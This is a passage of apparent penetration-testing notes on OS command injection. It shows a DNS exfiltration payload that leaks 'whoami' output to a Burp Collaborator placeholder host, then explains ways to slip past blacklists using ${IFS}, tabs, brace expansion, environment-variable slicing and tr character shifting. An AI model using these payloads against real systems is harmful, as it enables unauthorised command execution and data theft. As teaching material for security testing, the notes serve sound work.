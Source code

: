 We can append the data we need to extract as a subdomain of the collaborator server.
```
x||nslookup `whoami`.<burp-collab-payload>||
```

---

### Escaping Blacklists

Blacklists prevent certain characters or words from being accepted as input. However, this isn't the beset defense mechanism as there are many replacements and substitutions we can use instead.

> All techniques are explained [here](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection).
#### Space

If the space is blacklisted, these are other options:
1. Using tab instead: `%09`.
2. Using `${IFS}` environment variable whose default value is a space and a tab.
3. Using brace expansion: `{cmd_1, cmd_2, cmd_3}`. This automatically adds braces in between the arguments of the braces.

> The tab and `$(IFS)` are placed instead of the spaces during injection. The brace expansion replaces the whole input payload.

#### Using Environment Variables

We can use string slicing on environment variables to use blacklisted characters. All the environment variables can be printed with the `printenv` command.
* The `/` slash can be obtained from the `PATH` variable:
```bash
${PATH:0:1}
```
* The `;` semicolon can be obtained from the `LS_COLORS` variable:
```bash
${LS_COLORS:10:1}
```

> This command takes a substring starting from the first index with length of second index.

#### Character Shifting

We can use the ASCII table and shift from normal characters to ones that are blacklisted.
* We want the `\` character, so we shift by 1 the `[` character that is directly before it in the ASCII table.
```bash
$(tr '!-}' '"-~'<<<[)
```
> Simply replace the `[` with another character that is directly before a desired character.

#### Commands

If certain commands are blacklisted, then are there are techniques used to obfuscate them but still let them achieve their intended purpose.

1. If the application is checking for an exact word match, sending the same command but obfuscated will pass through this check.
